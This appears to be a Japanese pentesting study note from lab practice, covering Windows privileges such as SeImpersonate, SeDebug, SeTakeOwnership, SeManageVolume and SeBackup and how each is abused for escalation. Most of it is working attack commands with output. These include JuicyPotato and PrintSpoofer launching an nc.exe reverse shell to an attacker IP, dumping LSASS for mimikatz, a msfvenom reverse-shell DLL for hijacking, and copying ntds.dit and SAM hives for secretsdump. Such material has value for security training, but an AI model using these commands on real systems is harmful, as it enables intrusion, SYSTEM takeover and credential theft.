 # Windows における権利と特権

# ユーザー権利の割り当て

これらの権限により、ユーザーはローカルまたはリモートでのログオン、ネットワークからのホストへのアクセス、サーバーのシャットダウンなどのタスクをシステム上で実行できるようになる

このマイクロソフトの記事 [User Rights Assignment](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment) では、Windows で設定できる各ユーザー権利と、各権利に適用されるセキュリティに関する考慮事項について書かれている

| 設定 [定数](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | 設定名                                                       | 標準割り当て                                            | 説明                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------- | ------------------------------------------------------------ |
| SeNetworkLogonRight                                          | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network) | Administrators, Authenticated Users                     | どのユーザーがネットワークからデバイスに接続できるかを決定する。これは、SMB、NetBIOS、CIFS、COM+ などのネットワーク プロトコルで必要 |
| SeRemoteInteractiveLogonRight                                | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | このポリシー設定は、リモート デスクトップ サービス接続を通じてリモート デバイスのログイン画面にアクセスできるユーザーまたはグループを決定する。ユーザーは特定のサーバーへのリモート デスクトップ サービス接続を確立できるが、同じサーバーのコンソールにログオンすることはできない |
| SeBackupPrivilege                                            | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories) | Administrators                                          | このユーザー権利は、システムをバックアップする目的で、ファイル、ディレクトリ、レジストリ、およびその他の永続オブジェクトのアクセス許可をバイパスできるユーザーを決定する |
| SeSecurityPrivilege                                          | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log) | Administrators                                          | このポリシー設定は、ファイル、Active Directory オブジェクト、レジストリ キーなどの個々のリソースに対してオブジェクト アクセス監査オプションを指定できるユーザーを決定する。これらのオブジェクトは、システム アクセス制御リスト (SACL) を指定する。このユーザー権利を割り当てられたユーザーは、イベント ビューアーでセキュリティ ログを表示およびクリアすることもできる |
| SeTakeOwnershipPrivilege                                     | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) | Administrators                                          | このポリシー設定は、Active Directory オブジェクト、NTFS ファイルとフォルダー、プリンター、レジストリ キー、サービス、プロセス、スレッドなど、デバイス内のセキュリティ保護可能なオブジェクトの所有権をどのユーザーが取得できるかを決定する |
| SeDebugPrivilege                                             | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) | Administrators                                          | このポリシー設定は、どのユーザーがプロセス (自分が所有していないプロセスであっても) にアタッチしたり、プロセスを開いたりできるかを決定する。アプリケーションをデバッグしている開発者には、このユーザー権利は必要ない。新しいシステム コンポーネントをデバッグする開発者には、このユーザー権利が必要。このユーザー権利により、機密性の高い重要なオペレーティング システム コンポーネントへのアクセスが提供される |
| SeImpersonatePrivilege                                       | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) | Administrators, Local Service, Network Service, Service | このポリシー設定は、どのプログラムがユーザーまたは別の指定されたアカウントになりすましてユーザーの代わりに動作することを許可するかを決定する |
| SeLoadDriverPrivilege                                        | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers) | Administrators                                          | このポリシー設定は、どのユーザーがデバイス ドライバーを動的にロードおよびアンロードできるかを決定する。新しいハードウェア用の署名付きドライバーがデバイス上の driver.cab ファイルにすでに存在する場合、このユーザー権利は必要ない。デバイス ドライバーは高度な特権コードとして実行される |
| SeRestorePrivilege                                           | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories) | Administrators                                          | このセキュリティ設定は、バックアップされたファイルとディレクトリを復元するときに、どのユーザーがファイル、ディレクトリ、レジストリ、その他の永続オブジェクトのアクセス許可をバイパスできるかを決定する。これにより、どのユーザーがオブジェクトの所有者として有効なセキュリティ プリンシパルを設定できるかが決まる |

`whoami /priv`で現在のユーザーに割り当てられているすべてのユーザー権限のリストが表示

アカウントの特権が`Disabled`でリストされている場合、それはアカウントに特定の特権が割り当てられていることを意味する。ただし、有効になるまでは、アクセス トークンで使用して、関連するアクションを実行することはできない

```powershell-session
PS C:\hatto> whoami 

winlpe-srv01\administrator


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled 
```

この記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる



# SeImpersonatePrivilege

`whoami /priv`などで `SeImpersonatePrivilege` がリストされている場合 `JuicyPotato` をしようすることで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用することができる

## JuicyPotato を使用した権限の昇格

これらの権限を使用して権限を昇格するには、まず `JuicyPotato.exe` バイナリをダウンロードし、これと `nc.exe` をターゲット サーバーにアップロードする。次に、ポート 8443 で Netcat リスナーを起動し、以下のコマンドを実行する。ここで、`-l` は COM サーバーのリスニング ポート、`-p` は起動するプログラム (cmd.exe)、`-a` は cmd.exe に渡される引数です。 `-t` は createprocess 呼び出し。以下では、`CreateProcessWithTokenW` 関数と `CreateProcessAsUser` 関数の両方を試行するようにツールに指示している。これらの関数には、それぞれ `SeImpersonate` 権限または `SeAssignPrimaryToken` 権限が必要

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> enable_xp_cmdshell
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.16.8 8443 -e cmd.exe" -t *
output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL                                                         

SQL (WINLPE-SRV01\sql_dev  dbo@master)>          
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [11時55分02秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443       
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49702
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

## PrintSpoofer を使用した権限の昇格

JuicyPotato は、Windows Server 2019 および Windows 10 ビルド 1809 以降では動作しない。ただし、`PrintSpoofer` と `RoguePotato` を使用すると、同じ権限を活用し、`NT AUTHORITY\SYSTEM` レベルのアクセスを取得できる

`-c` 引数を指定してツールを使用してコマンドを実行します。ここでは、`nc.exe` を使用してリバース シェルを生成します (Netcat リスナーがポート 8443 の攻撃ボックスで待機しています)。

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.8 8443 -e cmd"
output                                        
-------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege   

[+] Named pipe listening...                   

[+] CreateProcessAsUser() OK                  

NULL                                          

SQL (WINLPE-SRV01\sql_dev  dbo@master)> 
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [12時26分45秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49719
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



# SeDebugPrivilege

この特権を使用すると、他のプロセスのデバッグが許可され、メモリ内の読み書きが可能になる。この特権を使用して、ほとんどのアンチウイルスおよびホスト侵入防止ソリューションを回避できるさまざまなメモリインジェクション戦略を適用できる

## メモリのダンプ

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) を [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) から使用して、プロセスのメモリをキャプチャできる。具体的には、これはユーザーがシステムに正常にログインした後にユーザーの資格情報を保存する**Local Security Authority Subsystem Service (LSASS)**プロセスに適用できる

```cmd-session
C:\hatto> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

その後、このダンプをmimikatzに読み込んでパスワードを取得できる

```cmd-session
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp  # sekurlsa::minidump で lsass.dmp を Mimikatz にロードする
mimikatz # sekurlsa::logonpasswords      # ローカル管理者アカウントの NTLM ハッシュを取得
```

## RCE

`NT SYSTEM`のシェルを取得したい場合は、次の方法があります：

- [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
- [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- [**psgetsys.ps1 (Powershell Script)**](https://github.com/decoder-it/psgetsystem)

PIDの取得には `tasklist` で取得できる (主に `winlogon.exe`のPIDを取得して `c:\windows\system32\cmd.exe` を起動させる)

```powershell
PS> Import-module psgetsys.ps1 
PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>    # -cmdargsは""にする
```



# SeTakeOwnershipPrivilege

この権限は`Active Directory object`, `NTFS file/folder`, `printers`, `registry keys`, `services`, `processes` などのセキュリティで保護されたオブジェクトの所有権をユーザに付与できる。管理者にはデフォルトで割り振られているが実際に標準ユーザーでこの権限が割り振られているアカウントに遭遇することはあまりない

つまり、権限がなくて参照できないファイルなどを参照できる権限を付与することができる

## 興味深いファイル

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## SeTakeOwnershipPrivilege を有効にする

権限が `Disabled` になっている場合 [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) を使用して権限を有効にできる

もしくはこの記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる

## ファイルの所有権の取得

[Takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows バイナリを使用してファイルの所有権を変更できる

`C:\Department Shares\Private\IT\cred.txt` の所有権を取得する

```powershell-session
C:\hatto> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\hatto".
```

## 所有権の変更の確認

```powershell-session
PS C:\hatto> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\hatto
```

## ファイルACLの変更

ファイルをまだ読み取れない可能性があるため、ファイルを読み取れるようにするには、[icacls](https://learn.microsoft.com/ja-jp/windows-server/administration/windows-commands/icacls) を使用してファイル ACL を変更する

```powershell-session
PS C:\hatto> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <権限を与えるユーザー名>:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```



# SeManageVolumePrivilege

SeManageVolumePrivilegeは、ボリュームメンテナンスタスクを実行するためのユーザーサービス権限を許可する。これにより、ディスク上のユーザー権限の割り当てを変更できるようになる

以下のエクスプロイトスクリプトをターゲットマシン上で実行する

[SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

## DLL Hijacking

スクリプトを実行することで `C:`ドライブ内System32を含むの任意のファイルに書き込むことができる

msfvenomで `tzres.dll` とうリバースシェルを作成する。これは `systeminfo` コマンドを実行したときに呼び出されるdll

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=1337 -f dll -o tzres.dll
```

ターゲットマシンの `C:\Windows\System32\wbem\tzres.dll` にコピーしてリスナーを起動、 `systeminfo` を実行することでシェルを取得できる



# SeBackupPrivilege

SeBackupPrivilege は、オブジェクトのセキュリティ設定に関係なく、ユーザーまたはプロセスにファイルとディレクトリを読み取る権限を持つ。この権限は、通常ユーザーがアクセスできないファイルをバックアップまたはコピーする機能を必要とする特定のバックアッププログラムまたはプロセスで使用できる。

[SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master) ここから悪意のある２つのdll `SeBackupPrivilegeUtils.dll`, `SeBackupPrivilegeCmdLets.dll`をダウンロードし、アップロードする

## 権限の悪用

dllを読み込ませる

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

権限を有効にする

```
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### 機密ファイルのコピーと読み取り

```
Copy-FileSeBackupPrivilege C:\Users\Administrator\proof.txt C:\Users\Public\proof.txt -Overwrite
```

### パスワードハッシュを取得する

```
Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite

reg save HKLM\SYSTEM c:\tmp\system
reg save HKLM\SAM C:\tmp\sam
```

### パスワードハッシュをdump

```
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```





